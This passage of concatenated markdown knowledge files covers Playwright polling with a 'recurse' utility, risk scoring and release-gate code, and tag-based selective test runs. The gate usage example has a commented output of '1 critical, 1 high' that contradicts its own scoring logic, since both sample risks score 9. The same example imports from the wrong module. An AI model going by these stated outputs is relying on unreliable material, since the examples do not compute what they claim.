      interval: 2000, // Check every 2 seconds
      log: 'Waiting for export job to complete',
    },
  );

  expect(result.body.downloadUrl).toBeDefined();
});
```

**Key Points**:

- First arg: command function (what to execute)
- Second arg: predicate function (when to stop)
- Options: timeout, interval, log message
- Returns the value when predicate returns true

### Example 2: Working with Assertions

**Context**: Use assertions directly in predicate for more expressive tests.

**Implementation**:

```typescript
test('should poll with assertions', async ({ recurse, apiRequest }) => {
  await apiRequest({
    method: 'POST',
    path: '/api/events',
    body: { type: 'user-created', userId: '123' },
  });

  // Poll with assertions in predicate - no return true needed!
  await recurse(
    async () => {
      const { body } = await apiRequest({ method: 'GET', path: '/api/events/123' });
      return body;
    },
    (event) => {
      // If all assertions pass, predicate succeeds
      expect(event.processed).toBe(true);
      expect(event.timestamp).toBeDefined();
      // No need to return true - just let assertions pass
    },
    { timeout: 30000 },
  );
});
```

**Why no `return true` needed?**

The predicate checks for "truthiness" of the return value. But there's a catch - in JavaScript, an empty `return` (or no return) returns `undefined`, which is falsy!

The utility handles this by checking if:

1. The predicate didn't throw (assertions passed)
2. The return value was either `undefined` (implicit return) or truthy

So you can:

```typescript
// Option 1: Use assertions only (recommended)
(event) => {
  expect(event.processed).toBe(true);
};

// Option 2: Return boolean (also works)
(event) => event.processed === true;

// Option 3: Mixed (assertions + explicit return)
(event) => {
  expect(event.processed).toBe(true);
  return true;
};
```

### Example 3: Error Handling

**Context**: Understanding the different error types.

**Error Types:**

```typescript
// RecurseTimeoutError - Predicate never returned true within timeout
// Contains last command value and predicate error
try {
  await recurse(/* ... */);
} catch (error) {
  if (error instanceof RecurseTimeoutError) {
    console.log('Timed out. Last value:', error.lastCommandValue);
    console.log('Last predicate error:', error.lastPredicateError);
  }
}

// RecurseCommandError - Command function threw an error
// The command itself failed (e.g., network error, API error)

// RecursePredicateError - Predicate function threw (not from assertions failing)
// Logic error in your predicate code
```

**Custom Error Messages:**

```typescript
test('custom error on timeout', async ({ recurse, apiRequest }) => {
  try {
    await recurse(
      () => apiRequest({ method: 'GET', path: '/api/status' }),
      (res) => res.body.ready === true,
      {
        timeout: 10000,
        error: 'System failed to become ready within 10 seconds - check background workers',
      },
    );
  } catch (error) {
    // Error message includes custom context
    expect(error.message).toContain('check background workers');
    throw error;
  }
});
```

### Example 4: Post-Polling Callback

**Context**: Process or log results after successful polling.

**Implementation**:

```typescript
test('post-poll processing', async ({ recurse, apiRequest }) => {
  const finalResult = await recurse(
    () => apiRequest({ method: 'GET', path: '/api/batch-job/123' }),
    (res) => res.body.status === 'completed',
    {
      timeout: 60000,
      post: (result) => {
        // Runs after successful polling
        console.log(`Job completed in ${result.body.duration}ms`);
        console.log(`Processed ${result.body.itemsProcessed} items`);
        return result.body;
      },
    },
  );

  expect(finalResult.itemsProcessed).toBeGreaterThan(0);
});
```

**Key Points**:

- `post` callback runs after predicate succeeds
- Receives the final result
- Can transform or log results
- Return value becomes final `recurse` result

### Example 5: UI Testing Scenarios

**Context**: Wait for UI elements to reach a specific state through polling.

**Implementation**:

```typescript
test('table data loads', async ({ page, recurse }) => {
  await page.goto('/reports');

  // Poll for table rows to appear
  await recurse(
    async () => page.locator('table tbody tr').count(),
    (count) => count >= 10, // Wait for at least 10 rows
    {
      timeout: 15000,
      interval: 500,
      log: 'Waiting for table data to load',
    },
  );

  // Now safe to interact with table
  await page.locator('table tbody tr').first().click();
});
```

### Example 6: Event-Based Systems (Kafka/Message Queues)

**Context**: Testing eventual consistency with message queue processing.

**Implementation**:

```typescript
test('kafka event processed', async ({ recurse, apiRequest }) => {
  // Trigger action that publishes Kafka event
  await apiRequest({
    method: 'POST',
    path: '/api/orders',
    body: { productId: 'ABC123', quantity: 2 },
  });

  // Poll for downstream effect of Kafka consumer processing
  const inventoryResult = await recurse(
    () => apiRequest({ method: 'GET', path: '/api/inventory/ABC123' }),
    (res) => {
      // Assumes test fixture seeds inventory at 100; in production tests,
      // fetch baseline first and assert: expect(res.body.available).toBe(baseline - 2)
      expect(res.body.available).toBeLessThanOrEqual(98);
    },
    {
      timeout: 30000, // Kafka processing may take time
      interval: 1000,
      log: 'Waiting for Kafka event to be processed',
    },
  );

  expect(inventoryResult.body.lastOrderId).toBeDefined();
});
```

### Example 7: Integration with API Request (Common Pattern)

**Context**: Most common use case - polling API endpoints for state changes.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('end-to-end polling', async ({ apiRequest, recurse }) => {
  // Trigger async operation
  const { body: createResp } = await apiRequest({
    method: 'POST',
    path: '/api/data-import',
    body: { source: 's3://bucket/data.csv' },
  });

  // Poll until import completes
  const importResult = await recurse(
    () => apiRequest({ method: 'GET', path: `/api/data-import/${createResp.importId}` }),
    (response) => {
      const { status, rowsImported } = response.body;
      return status === 'completed' && rowsImported > 0;
    },
    {
      timeout: 120000, // 2 minutes for large imports
      interval: 5000, // Check every 5 seconds
      log: `Polling import ${createResp.importId}`,
    },
  );

  expect(importResult.body.rowsImported).toBeGreaterThan(1000);
  expect(importResult.body.errors).toHaveLength(0);
});
```

**Key Points**:

- Combine `apiRequest` + `recurse` for API polling
- Both from `@seontechnologies/playwright-utils/fixtures`
- Complex predicates with multiple conditions
- Logging shows polling progress in test reports

## API Reference

### RecurseOptions

| Option     | Type               | Default     | Description                          |
| ---------- | ------------------ | ----------- | ------------------------------------ |
| `timeout`  | `number`           | `30000`     | Maximum time to wait (ms)            |
| `interval` | `number`           | `1000`      | Time between polls (ms)              |
| `log`      | `string`           | `undefined` | Message logged on each poll          |
| `error`    | `string`           | `undefined` | Custom error message for timeout     |
| `post`     | `(result: T) => R` | `undefined` | Callback after successful poll       |
| `delay`    | `number`           | `0`         | Initial delay before first poll (ms) |

### Error Types

| Error Type              | When Thrown                             | Properties                               |
| ----------------------- | --------------------------------------- | ---------------------------------------- |
| `RecurseTimeoutError`   | Predicate never passed within timeout   | `lastCommandValue`, `lastPredicateError` |
| `RecurseCommandError`   | Command function threw an error         | `cause` (original error)                 |
| `RecursePredicateError` | Predicate threw (not assertion failure) | `cause` (original error)                 |

## Comparison with Vanilla Playwright

| Vanilla Playwright                                                | recurse Utility                                                           |
| ----------------------------------------------------------------- | ------------------------------------------------------------------------- |
| `await expect.poll(() => { ... }, { timeout: 30000 }).toBe(true)` | `await recurse(() => { ... }, (val) => val === true, { timeout: 30000 })` |
| No logging                                                        | Built-in log option                                                       |
| Generic timeout errors                                            | Categorized errors (timeout/command/predicate)                            |
| No post-poll hooks                                                | `post` callback support                                                   |

## When to Use

**Use recurse for:**

- Background job completion
- Webhook/event processing
- Database eventual consistency
- Cache propagation
- State machine transitions

**Stick with vanilla expect.poll for:**

- Simple UI element visibility (use `expect(locator).toBeVisible()`)
- Single-property checks
- Cases where logging isn't needed

## Related Fragments

- `api-testing-patterns.md` - Comprehensive pure API testing patterns
- `api-request.md` - Combine for API endpoint polling
- `overview.md` - Fixture composition patterns
- `fixtures-composition.md` - Using with mergeTests
- `contract-testing.md` - Contract testing with async verification

## Anti-Patterns

**DON'T use hard waits instead of polling:**

```typescript
await page.click('#export');
await page.waitForTimeout(5000); // Arbitrary wait
expect(await page.textContent('#status')).toBe('Ready');
```

**DO poll for actual condition:**

```typescript
await page.click('#export');
await recurse(
  () => page.textContent('#status'),
  (status) => status === 'Ready',
  { timeout: 10000 },
);
```

**DON'T poll too frequently:**

```typescript
await recurse(
  () => apiRequest({ method: 'GET', path: '/status' }),
  (res) => res.body.ready,
  { interval: 100 }, // Hammers API every 100ms!
);
```

**DO use reasonable interval for API calls:**

```typescript
await recurse(
  () => apiRequest({ method: 'GET', path: '/status' }),
  (res) => res.body.ready,
  { interval: 2000 }, // Check every 2 seconds (reasonable)
);
```
```

## File: `src/agents/bmad-tea/resources/knowledge/risk-governance.md`
```markdown
# Risk Governance and Gatekeeping

## Principle

Risk governance transforms subjective "should we ship?" debates into objective, data-driven decisions. By scoring risk (probability × impact), classifying by category (TECH, SEC, PERF, etc.), and tracking mitigation ownership, teams create transparent quality gates that balance speed with safety.

## Rationale

**The Problem**: Without formal risk governance, releases become political—loud voices win, quiet risks hide, and teams discover critical issues in production. "We thought it was fine" isn't a release strategy.

**The Solution**: Risk scoring (1-3 scale for probability and impact, total 1-9) creates shared language. Scores ≥6 demand documented mitigation. Scores = 9 mandate gate failure. Every acceptance criterion maps to a test, and gaps require explicit waivers with owners and expiry dates.

**Why This Matters**:

- Removes ambiguity from release decisions (objective scores vs subjective opinions)
- Creates audit trail for compliance (FDA, SOC2, ISO require documented risk management)
- Identifies true blockers early (prevents last-minute production fires)
- Distributes responsibility (owners, mitigation plans, deadlines for every risk >4)

## Pattern Examples

### Example 1: Risk Scoring Matrix with Automated Classification (TypeScript)

**Context**: Calculate risk scores automatically from test results and categorize by risk type

**Implementation**:

```typescript
// risk-scoring.ts - Risk classification and scoring system
export const RISK_CATEGORIES = {
  TECH: 'TECH', // Technical debt, architecture fragility
  SEC: 'SEC', // Security vulnerabilities
  PERF: 'PERF', // Performance degradation
  DATA: 'DATA', // Data integrity, corruption
  BUS: 'BUS', // Business logic errors
  OPS: 'OPS', // Operational issues (deployment, monitoring)
} as const;

export type RiskCategory = keyof typeof RISK_CATEGORIES;

export type RiskScore = {
  id: string;
  category: RiskCategory;
  title: string;
  description: string;
  probability: 1 | 2 | 3; // 1=Low, 2=Medium, 3=High
  impact: 1 | 2 | 3; // 1=Low, 2=Medium, 3=High
  score: number; // probability × impact (1-9)
  owner: string;
  mitigationPlan?: string;
  deadline?: Date;
  status: 'OPEN' | 'MITIGATED' | 'WAIVED' | 'ACCEPTED';
  waiverReason?: string;
  waiverApprover?: string;
  waiverExpiry?: Date;
};

// Risk scoring rules
export function calculateRiskScore(probability: 1 | 2 | 3, impact: 1 | 2 | 3): number {
  return probability * impact;
}

export function requiresMitigation(score: number): boolean {
  return score >= 6; // Scores 6-9 demand action
}

export function isCriticalBlocker(score: number): boolean {
  return score === 9; // Probability=3 AND Impact=3 → FAIL gate
}

export function classifyRiskLevel(score: number): 'LOW' | 'MEDIUM' | 'HIGH' | 'CRITICAL' {
  if (score === 9) return 'CRITICAL';
  if (score >= 6) return 'HIGH';
  if (score >= 4) return 'MEDIUM';
  return 'LOW';
}

// Example: Risk assessment from test failures
export function assessTestFailureRisk(failure: {
  test: string;
  category: RiskCategory;
  affectedUsers: number;
  revenueImpact: number;
  securityVulnerability: boolean;
}): RiskScore {
  // Probability based on test failure frequency (simplified)
  const probability: 1 | 2 | 3 = 3; // Test failed = High probability

  // Impact based on business context
  let impact: 1 | 2 | 3 = 1;
  if (failure.securityVulnerability) impact = 3;
  else if (failure.revenueImpact > 10000) impact = 3;
  else if (failure.affectedUsers > 1000) impact = 2;
  else impact = 1;

  const score = calculateRiskScore(probability, impact);

  return {
    id: `risk-${Date.now()}`,
    category: failure.category,
    title: `Test failure: ${failure.test}`,
    description: `Affects ${failure.affectedUsers} users, $${failure.revenueImpact} revenue`,
    probability,
    impact,
    score,
    owner: 'unassigned',
    status: score === 9 ? 'OPEN' : 'OPEN',
  };
}
```

**Key Points**:

- **Objective scoring**: Probability (1-3) × Impact (1-3) = Score (1-9)
- **Clear thresholds**: Score ≥6 requires mitigation, score = 9 blocks release
- **Business context**: Revenue, users, security drive impact calculation
- **Status tracking**: OPEN → MITIGATED → WAIVED → ACCEPTED lifecycle

---

### Example 2: Gate Decision Engine with Traceability Validation

**Context**: Automated gate decision based on risk scores and test coverage

**Implementation**:

```typescript
// gate-decision-engine.ts
export type GateDecision = 'PASS' | 'CONCERNS' | 'FAIL' | 'WAIVED';

export type CoverageGap = {
  acceptanceCriteria: string;
  testMissing: string;
  reason: string;
};

export type GateResult = {
  decision: GateDecision;
  timestamp: Date;
  criticalRisks: RiskScore[];
  highRisks: RiskScore[];
  coverageGaps: CoverageGap[];
  summary: string;
  recommendations: string[];
};

export function evaluateGate(params: { risks: RiskScore[]; coverageGaps: CoverageGap[]; waiverApprover?: string }): GateResult {
  const { risks, coverageGaps, waiverApprover } = params;

  // Categorize risks
  const criticalRisks = risks.filter((r) => r.score === 9 && r.status === 'OPEN');
  const highRisks = risks.filter((r) => r.score >= 6 && r.score < 9 && r.status === 'OPEN');
  const unresolvedGaps = coverageGaps.filter((g) => !g.reason);

  // Decision logic
  let decision: GateDecision;

  // FAIL: Critical blockers (score=9) or missing coverage
  if (criticalRisks.length > 0 || unresolvedGaps.length > 0) {
    decision = 'FAIL';
  }
  // WAIVED: All risks waived by authorized approver
  else if (risks.every((r) => r.status === 'WAIVED') && waiverApprover) {
    decision = 'WAIVED';
  }
  // CONCERNS: High risks (score 6-8) with mitigation plans
  else if (highRisks.length > 0 && highRisks.every((r) => r.mitigationPlan && r.owner !== 'unassigned')) {
    decision = 'CONCERNS';
  }
  // PASS: No critical issues, all risks mitigated or low
  else {
    decision = 'PASS';
  }

  // Generate recommendations
  const recommendations: string[] = [];
  if (criticalRisks.length > 0) {
    recommendations.push(`🚨 ${criticalRisks.length} CRITICAL risk(s) must be mitigated before release`);
  }
  if (unresolvedGaps.length > 0) {
    recommendations.push(`📋 ${unresolvedGaps.length} acceptance criteria lack test coverage`);
  }
  if (highRisks.some((r) => !r.mitigationPlan)) {
    recommendations.push(`⚠️  High risks without mitigation plans: assign owners and deadlines`);
  }
  if (decision === 'PASS') {
    recommendations.push(`✅ All risks mitigated or acceptable. Ready for release.`);
  }

  return {
    decision,
    timestamp: new Date(),
    criticalRisks,
    highRisks,
    coverageGaps: unresolvedGaps,
    summary: generateSummary(decision, risks, unresolvedGaps),
    recommendations,
  };
}

function generateSummary(decision: GateDecision, risks: RiskScore[], gaps: CoverageGap[]): string {
  const total = risks.length;
  const critical = risks.filter((r) => r.score === 9).length;
  const high = risks.filter((r) => r.score >= 6 && r.score < 9).length;

  return `Gate Decision: ${decision}. Total Risks: ${total} (${critical} critical, ${high} high). Coverage Gaps: ${gaps.length}.`;
}
```

**Usage Example**:

```typescript
// Example: Running gate check before deployment
import { assessTestFailureRisk, evaluateGate } from './gate-decision-engine';

// Collect risks from test results
const risks: RiskScore[] = [
  assessTestFailureRisk({
    test: 'Payment processing with expired card',
    category: 'BUS',
    affectedUsers: 5000,
    revenueImpact: 50000,
    securityVulnerability: false,
  }),
  assessTestFailureRisk({
    test: 'SQL injection in search endpoint',
    category: 'SEC',
    affectedUsers: 10000,
    revenueImpact: 0,
    securityVulnerability: true,
  }),
];

// Identify coverage gaps
const coverageGaps: CoverageGap[] = [
  {
    acceptanceCriteria: 'User can reset password via email',
    testMissing: 'e2e/auth/password-reset.spec.ts',
    reason: '', // Empty = unresolved
  },
];

// Evaluate gate
const gateResult = evaluateGate({ risks, coverageGaps });

console.log(gateResult.decision); // 'FAIL'
console.log(gateResult.summary);
// "Gate Decision: FAIL. Total Risks: 2 (1 critical, 1 high). Coverage Gaps: 1."

console.log(gateResult.recommendations);
// [
//   "🚨 1 CRITICAL risk(s) must be mitigated before release",
//   "📋 1 acceptance criteria lack test coverage"
// ]
```

**Key Points**:

- **Automated decision**: No human interpretation required
- **Clear criteria**: FAIL = critical risks or gaps, CONCERNS = high risks with plans, PASS = low risks
- **Actionable output**: Recommendations drive next steps
- **Audit trail**: Timestamp, decision, and context for compliance

---

### Example 3: Risk Mitigation Workflow with Owner Tracking

**Context**: Track risk mitigation from identification to resolution

**Implementation**:

```typescript
// risk-mitigation.ts
export type MitigationAction = {
  riskId: string;
  action: string;
  owner: string;
  deadline: Date;
  status: 'PENDING' | 'IN_PROGRESS' | 'COMPLETED' | 'BLOCKED';
  completedAt?: Date;
  blockedReason?: string;
};

export class RiskMitigationTracker {
  private risks: Map<string, RiskScore> = new Map();
  private actions: Map<string, MitigationAction[]> = new Map();
  private history: Array<{ riskId: string; event: string; timestamp: Date }> = [];

  // Register a new risk
  addRisk(risk: RiskScore): void {
    this.risks.set(risk.id, risk);
    this.logHistory(risk.id, `Risk registered: ${risk.title} (Score: ${risk.score})`);

    // Auto-assign mitigation requirements for score ≥6
    if (requiresMitigation(risk.score) && !risk.mitigationPlan) {
      this.logHistory(risk.id, `⚠️  Mitigation required (score ${risk.score}). Assign owner and plan.`);
    }
  }

  // Add mitigation action
  addMitigationAction(action: MitigationAction): void {
    const risk = this.risks.get(action.riskId);
    if (!risk) throw new Error(`Risk ${action.riskId} not found`);

    const existingActions = this.actions.get(action.riskId) || [];
    existingActions.push(action);
    this.actions.set(action.riskId, existingActions);

    this.logHistory(action.riskId, `Mitigation action added: ${action.action} (Owner: ${action.owner})`);
  }

  // Complete mitigation action
  completeMitigation(riskId: string, actionIndex: number): void {
    const actions = this.actions.get(riskId);
    if (!actions || !actions[actionIndex]) throw new Error('Action not found');

    actions[actionIndex].status = 'COMPLETED';
    actions[actionIndex].completedAt = new Date();

    this.logHistory(riskId, `Mitigation completed: ${actions[actionIndex].action}`);

    // If all actions completed, mark risk as MITIGATED
    if (actions.every((a) => a.status === 'COMPLETED')) {
      const risk = this.risks.get(riskId)!;
      risk.status = 'MITIGATED';
      this.logHistory(riskId, `✅ Risk mitigated. All actions complete.`);
    }
  }

  // Request waiver for a risk
  requestWaiver(riskId: string, reason: string, approver: string, expiryDays: number): void {
    const risk = this.risks.get(riskId);
    if (!risk) throw new Error(`Risk ${riskId} not found`);

    risk.status = 'WAIVED';
    risk.waiverReason = reason;
    risk.waiverApprover = approver;
    risk.waiverExpiry = new Date(Date.now() + expiryDays * 24 * 60 * 60 * 1000);

    this.logHistory(riskId, `⚠️  Waiver granted by ${approver}. Expires: ${risk.waiverExpiry}`);
  }

  // Generate risk report
  generateReport(): string {
    const allRisks = Array.from(this.risks.values());
    const critical = allRisks.filter((r) => r.score === 9 && r.status === 'OPEN');
    const high = allRisks.filter((r) => r.score >= 6 && r.score < 9 && r.status === 'OPEN');
    const mitigated = allRisks.filter((r) => r.status === 'MITIGATED');
    const waived = allRisks.filter((r) => r.status === 'WAIVED');

    let report = `# Risk Mitigation Report\n\n`;
    report += `**Generated**: ${new Date().toISOString()}\n\n`;
    report += `## Summary\n`;
    report += `- Total Risks: ${allRisks.length}\n`;
    report += `- Critical (Score=9, OPEN): ${critical.length}\n`;
    report += `- High (Score 6-8, OPEN): ${high.length}\n`;
    report += `- Mitigated: ${mitigated.length}\n`;
    report += `- Waived: ${waived.length}\n\n`;

    if (critical.length > 0) {
      report += `## 🚨 Critical Risks (BLOCKERS)\n\n`;
      critical.forEach((r) => {
        report += `- **${r.title}** (${r.category})\n`;
        report += `  - Score: ${r.score} (Probability: ${r.probability}, Impact: ${r.impact})\n`;
        report += `  - Owner: ${r.owner}\n`;
        report += `  - Mitigation: ${r.mitigationPlan || 'NOT ASSIGNED'}\n\n`;
      });
    }

    if (high.length > 0) {
      report += `## ⚠️  High Risks\n\n`;
      high.forEach((r) => {
        report += `- **${r.title}** (${r.category})\n`;
        report += `  - Score: ${r.score}\n`;
        report += `  - Owner: ${r.owner}\n`;
        report += `  - Deadline: ${r.deadline?.toISOString().split('T')[0] || 'NOT SET'}\n\n`;
      });
    }

    return report;
  }

  private logHistory(riskId: string, event: string): void {
    this.history.push({ riskId, event, timestamp: new Date() });
  }

  getHistory(riskId: string): Array<{ event: string; timestamp: Date }> {
    return this.history.filter((h) => h.riskId === riskId).map((h) => ({ event: h.event, timestamp: h.timestamp }));
  }
}
```

**Usage Example**:

```typescript
const tracker = new RiskMitigationTracker();

// Register critical security risk
tracker.addRisk({
  id: 'risk-001',
  category: 'SEC',
  title: 'SQL injection vulnerability in user search',
  description: 'Unsanitized input allows arbitrary SQL execution',
  probability: 3,
  impact: 3,
  score: 9,
  owner: 'security-team',
  status: 'OPEN',
});

// Add mitigation actions
tracker.addMitigationAction({
  riskId: 'risk-001',
  action: 'Add parameterized queries to user-search endpoint',
  owner: 'alice@example.com',
  deadline: new Date('2025-10-20'),
  status: 'IN_PROGRESS',
});

tracker.addMitigationAction({
  riskId: 'risk-001',
  action: 'Add WAF rule to block SQL injection patterns',
  owner: 'bob@example.com',
  deadline: new Date('2025-10-22'),
  status: 'PENDING',
});

// Complete first action
tracker.completeMitigation('risk-001', 0);

// Generate report
console.log(tracker.generateReport());
// Markdown report with critical risks, owners, deadlines

// View history
console.log(tracker.getHistory('risk-001'));
// [
//   { event: 'Risk registered: SQL injection...', timestamp: ... },
//   { event: 'Mitigation action added: Add parameterized queries...', timestamp: ... },
//   { event: 'Mitigation completed: Add parameterized queries...', timestamp: ... }
// ]
```

**Key Points**:

- **Ownership enforcement**: Every risk >4 requires owner assignment
- **Deadline tracking**: Mitigation actions have explicit deadlines
- **Audit trail**: Complete history of risk lifecycle (registered → mitigated)
- **Automated reports**: Markdown output for Confluence/GitHub wikis

---

### Example 4: Coverage Traceability Matrix (Test-to-Requirement Mapping)

**Context**: Validate that every acceptance criterion maps to at least one test

**Implementation**:

```typescript
// coverage-traceability.ts
export type AcceptanceCriterion = {
  id: string;
  story: string;
  criterion: string;
  priority: 'P0' | 'P1' | 'P2' | 'P3';
};

export type TestCase = {
  file: string;
  name: string;
  criteriaIds: string[]; // Links to acceptance criteria
};

export type CoverageMatrix = {
  criterion: AcceptanceCriterion;
  tests: TestCase[];
  covered: boolean;
  waiverReason?: string;
};

export function buildCoverageMatrix(criteria: AcceptanceCriterion[], tests: TestCase[]): CoverageMatrix[] {
  return criteria.map((criterion) => {
    const matchingTests = tests.filter((t) => t.criteriaIds.includes(criterion.id));

    return {
      criterion,
      tests: matchingTests,
      covered: matchingTests.length > 0,
    };
  });
}

export function validateCoverage(matrix: CoverageMatrix[]): {
  gaps: CoverageMatrix[];
  passRate: number;
} {
  const gaps = matrix.filter((m) => !m.covered && !m.waiverReason);
  const passRate = ((matrix.length - gaps.length) / matrix.length) * 100;

  return { gaps, passRate };
}

// Example: Extract criteria IDs from test names
export function extractCriteriaFromTests(testFiles: string[]): TestCase[] {
  // Simplified: In real implementation, parse test files with AST
  // Here we simulate extraction from test names
  return [
    {
      file: 'tests/e2e/auth/login.spec.ts',
      name: 'should allow user to login with valid credentials',
      criteriaIds: ['AC-001', 'AC-002'], // Linked to acceptance criteria
    },
    {
      file: 'tests/e2e/auth/password-reset.spec.ts',
      name: 'should send password reset email',
      criteriaIds: ['AC-003'],
    },
  ];
}

// Generate Markdown traceability report
export function generateTraceabilityReport(matrix: CoverageMatrix[]): string {
  let report = `# Requirements-to-Tests Traceability Matrix\n\n`;
  report += `**Generated**: ${new Date().toISOString()}\n\n`;

  const { gaps, passRate } = validateCoverage(matrix);

  report += `## Summary\n`;
  report += `- Total Criteria: ${matrix.length}\n`;
  report += `- Covered: ${matrix.filter((m) => m.covered).length}\n`;
  report += `- Gaps: ${gaps.length}\n`;
  report += `- Waived: ${matrix.filter((m) => m.waiverReason).length}\n`;
  report += `- Coverage Rate: ${passRate.toFixed(1)}%\n\n`;

  if (gaps.length > 0) {
    report += `## ❌ Coverage Gaps (MUST RESOLVE)\n\n`;
    report += `| Story | Criterion | Priority | Tests |\n`;
    report += `|-------|-----------|----------|-------|\n`;
    gaps.forEach((m) => {
      report += `| ${m.criterion.story} | ${m.criterion.criterion} | ${m.criterion.priority} | None |\n`;
    });
    report += `\n`;
  }

  report += `## ✅ Covered Criteria\n\n`;
  report += `| Story | Criterion | Tests |\n`;
  report += `|-------|-----------|-------|\n`;
  matrix
    .filter((m) => m.covered)
    .forEach((m) => {
      const testList = m.tests.map((t) => `\`${t.file}\``).join(', ');
      report += `| ${m.criterion.story} | ${m.criterion.criterion} | ${testList} |\n`;
    });

  return report;
}
```

**Usage Example**:

```typescript
// Define acceptance criteria
const criteria: AcceptanceCriterion[] = [
  { id: 'AC-001', story: 'US-123', criterion: 'User can login with email', priority: 'P0' },
  { id: 'AC-002', story: 'US-123', criterion: 'User sees error on invalid password', priority: 'P0' },
  { id: 'AC-003', story: 'US-124', criterion: 'User receives password reset email', priority: 'P1' },
  { id: 'AC-004', story: 'US-125', criterion: 'User can update profile', priority: 'P2' }, // NO TEST
];

// Extract tests
const tests: TestCase[] = extractCriteriaFromTests(['tests/e2e/auth/login.spec.ts', 'tests/e2e/auth/password-reset.spec.ts']);

// Build matrix
const matrix = buildCoverageMatrix(criteria, tests);

// Validate
const { gaps, passRate } = validateCoverage(matrix);
console.log(`Coverage: ${passRate.toFixed(1)}%`); // "Coverage: 75.0%"
console.log(`Gaps: ${gaps.length}`); // "Gaps: 1" (AC-004 has no test)

// Generate report
const report = generateTraceabilityReport(matrix);
console.log(report);
// Markdown table showing coverage gaps
```

**Key Points**:

- **Bidirectional traceability**: Criteria → Tests and Tests → Criteria
- **Gap detection**: Automatically identifies missing coverage
- **Priority awareness**: P0 gaps are critical blockers
- **Waiver support**: Allow explicit waivers for low-priority gaps

---

## Risk Governance Checklist

Before deploying to production, ensure:

- [ ] **Risk scoring complete**: All identified risks scored (Probability × Impact)
- [ ] **Ownership assigned**: Every risk >4 has owner, mitigation plan, deadline
- [ ] **Coverage validated**: Every acceptance criterion maps to at least one test
- [ ] **Gate decision documented**: PASS/CONCERNS/FAIL/WAIVED with rationale
- [ ] **Waivers approved**: All waivers have approver, reason, expiry date
- [ ] **Audit trail captured**: Risk history log available for compliance review
- [ ] **Traceability matrix**: Requirements-to-tests mapping up to date
- [ ] **Critical risks resolved**: No score=9 risks in OPEN status

## Integration Points

- **Used in workflows**: `*trace` (Phase 2: gate decision), `*nfr-assess` (risk scoring), `*test-design` (risk identification)
- **Related fragments**: `probability-impact.md` (scoring definitions), `test-priorities-matrix.md` (P0-P3 classification), `nfr-criteria.md` (non-functional risks)
- **Tools**: Risk tracking dashboards (Jira, Linear), gate automation (CI/CD), traceability reports (Markdown, Confluence)

_Source: Murat risk governance notes, gate schema guidance, enterprise production gate workflows, ISO 31000 risk management standards_
```

## File: `src/agents/bmad-tea/resources/knowledge/selective-testing.md`
```markdown
# Selective and Targeted Test Execution

## Principle

Run only the tests you need, when you need them. Use tags/grep to slice suites by risk priority (not directory structure), filter by spec patterns or git diff to focus on impacted areas, and combine priority metadata (P0-P3) with change detection to optimize pre-commit vs. CI execution. Document the selection strategy clearly so teams understand when full regression is mandatory.

## Rationale

Running the entire test suite on every commit wastes time and resources. Smart test selection provides fast feedback (smoke tests in minutes, full regression in hours) while maintaining confidence. The "32+ ways of selective testing" philosophy balances speed with coverage: quick loops for developers, comprehensive validation before deployment. Poorly documented selection leads to confusion about when tests run and why.

## Pattern Examples

### Example 1: Tag-Based Execution with Priority Levels

**Context**: Organize tests by risk priority and execution stage using grep/tag patterns.

**Implementation**:

```typescript
// tests/e2e/checkout.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Tag-based test organization
 * - @smoke: Critical path tests (run on every commit, < 5 min)
 * - @regression: Full test suite (run pre-merge, < 30 min)
 * - @p0: Critical business functions (payment, auth, data integrity)
 * - @p1: Core features (primary user journeys)
 * - @p2: Secondary features (supporting functionality)
 * - @p3: Nice-to-have (cosmetic, non-critical)
 */

test.describe('Checkout Flow', () => {
  // P0 + Smoke: Must run on every commit
  test('@smoke @p0 should complete purchase with valid payment', async ({ page }) => {
    await page.goto('/checkout');
    await page.getByTestId('card-number').fill('4242424242424242');
    await page.getByTestId('submit-payment').click();

    await expect(page.getByTestId('order-confirmation')).toBeVisible();
  });

  // P0 but not smoke: Run pre-merge
  test('@regression @p0 should handle payment decline gracefully', async ({ page }) => {
    await page.goto('/checkout');
    await page.getByTestId('card-number').fill('4000000000000002'); // Decline card
    await page.getByTestId('submit-payment').click();

    await expect(page.getByTestId('payment-error')).toBeVisible();
    await expect(page.getByTestId('payment-error')).toContainText('declined');
  });

  // P1 + Smoke: Important but not critical
  test('@smoke @p1 should apply discount code', async ({ page }) => {
    await page.goto('/checkout');
    await page.getByTestId('promo-code').fill('SAVE10');
    await page.getByTestId('apply-promo').click();

    await expect(page.getByTestId('discount-applied')).toBeVisible();
  });

  // P2: Run in full regression only
  test('@regression @p2 should remember saved payment methods', async ({ page }) => {
    await page.goto('/checkout');
    await expect(page.getByTestId('saved-cards')).toBeVisible();
  });

  // P3: Low priority, run nightly or weekly
  test('@nightly @p3 should display checkout page analytics', async ({ page }) => {
    await page.goto('/checkout');
    const analyticsEvents = await page.evaluate(() => (window as any).__ANALYTICS__);
    expect(analyticsEvents).toBeDefined();
  });
});
```

**package.json scripts**:

```json
{
  "scripts": {
    "test": "playwright test",
    "test:smoke": "playwright test --grep '@smoke'",
    "test:p0": "playwright test --grep '@p0'",
    "test:p0-p1": "playwright test --grep '@p0|@p1'",
    "test:regression": "playwright test --grep '@regression'",
    "test:nightly": "playwright test --grep '@nightly'",
    "test:not-slow": "playwright test --grep-invert '@slow'",
    "test:critical-smoke": "playwright test --grep '@smoke.*@p0'"
  }
}
```

**Cypress equivalent**:

```javascript
// cypress/e2e/checkout.cy.ts
describe('Checkout Flow', { tags: ['@checkout'] }, () => {
  it('should complete purchase', { tags: ['@smoke', '@p0'] }, () => {
    cy.visit('/checkout');
    cy.get('[data-cy="card-number"]').type('4242424242424242');
    cy.get('[data-cy="submit-payment"]').click();
    cy.get('[data-cy="order-confirmation"]').should('be.visible');
  });

  it('should handle decline', { tags: ['@regression', '@p0'] }, () => {
    cy.visit('/checkout');
    cy.get('[data-cy="card-number"]').type('4000000000000002');
    cy.get('[data-cy="submit-payment"]').click();
    cy.get('[data-cy="payment-error"]').should('be.visible');
  });
});

// cypress.config.ts
export default defineConfig({
  e2e: {
    env: {
      grepTags: process.env.GREP_TAGS || '',
      grepFilterSpecs: true,
    },
    setupNodeEvents(on, config) {
      require('@cypress/grep/src/plugin')(config);
      return config;
    },
  },
});
```

**Usage**:

```bash
# Playwright
npm run test:smoke                    # Run all @smoke tests
npm run test:p0                       # Run all P0 tests
npm run test -- --grep "@smoke.*@p0"  # Run tests with BOTH tags

